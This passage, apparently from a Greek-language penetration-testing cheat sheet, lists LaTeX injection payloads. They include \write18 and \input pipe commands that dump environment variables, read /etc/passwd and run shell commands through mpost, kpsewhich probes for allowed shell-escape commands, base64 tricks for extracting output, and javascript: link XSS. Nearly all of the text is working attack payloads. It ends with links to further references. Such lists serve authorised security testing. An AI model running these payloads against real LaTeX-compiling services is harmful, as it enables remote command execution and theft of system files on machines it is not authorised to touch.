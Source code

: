 Η είσοδος της εντολής θα ανακατευθυνθεί στο stdin, χρησιμοποιήστε ένα προσωρινό αρχείο για να την αποκτήσετε.
```bash
\immediate\write18{env > output}
\input{output}

\input{|"/bin/hostname"}
\input{|"extractbb /etc/passwd > /tmp/b.tex"}

# allowed mpost command RCE
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (id;uname${IFS}-sm)>/tmp/pwn" "x.mp"}
\end{document}

# If mpost is not allowed there are other commands you might be able to execute
## Just get the version
\input{|"bibtex8 --version > /tmp/b.tex"}
## Search the file pdfetex.ini
\input{|"kpsewhich pdfetex.ini > /tmp/b.tex"}
## Get env var value
\input{|"kpsewhich -expand-var=$HOSTNAME > /tmp/b.tex"}
## Get the value of shell_escape_commands without needing to read pdfetex.ini
\input{|"kpsewhich --var-value=shell_escape_commands > /tmp/b.tex"}
```
Αν λάβετε οποιοδήποτε σφάλμα LaTex, εξετάστε το ενδεχόμενο να χρησιμοποιήσετε base64 για να αποκτήσετε το αποτέλεσμα χωρίς κακά χαρακτήρες.
```bash
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```bash
\input|ls|base4
\input{|"/bin/hostname"}
```
### Cross Site Scripting <a href="#cross-site-scripting" id="cross-site-scripting"></a>

Από [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130)
```bash
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```
## Ghostscript Injection

**Έλεγχος** [**https://blog.redteam-pentesting.de/2023/ghostscript-overview/**](https://blog.redteam-pentesting.de/2023/ghostscript-overview/)

## Αναφορές

* [https://notsosecure.com/data-exfiltration-formula-injection-part1](https://notsosecure.com/data-exfiltration-formula-injection-part1)
* [https://0day.work/hacking-with-latex/](https://0day.work/hacking-with-latex/)
* [https://salmonsec.com/cheatsheet/latex\_injection](https://salmonsec.com/cheatsheet/latex\_injection)
* [https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/](https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)
